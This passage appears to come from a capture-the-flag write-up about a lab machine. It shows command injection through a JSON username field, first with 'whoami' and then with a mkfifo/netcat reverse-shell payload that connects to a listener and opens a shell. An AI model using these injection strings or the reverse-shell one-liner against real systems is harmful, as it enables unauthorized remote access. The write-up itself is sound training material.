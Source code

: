 ```json
{
    "status":"danger",
    "message":"Invalid content type."
}
```

Now we go through the same process, until we reach this payload:

```json
{
    "username":"test2"
}
```

Now what? We can't really use this VPN file, there's no other endpoints...

I found that inserting a `;` in the username field seems to cause a response change, so perhaps we can cause some command injection.

We can get a reponse doing the following:

```json
{
    "username":"test2;whoami;"
}
```

We get a response of: `www-data`!

## Initial Access & User Flag

Let's see if we can trigger a reverse shell, I setup my listener with `pwncat`.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

I generate a reverse shell payload using [revshells.com](https://revshells.com) and use this:

```json
{
    "username": "test2;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.***.*** 4444 >/tmp/f;"
}
```

And we get a callback!

```
[15:47:37] 10.10.11.221:32780: registered new host w/ db
[15:47:38] listener: 10.10.***.***:4444: linux session from 10.10.11.221:32780
           established
```
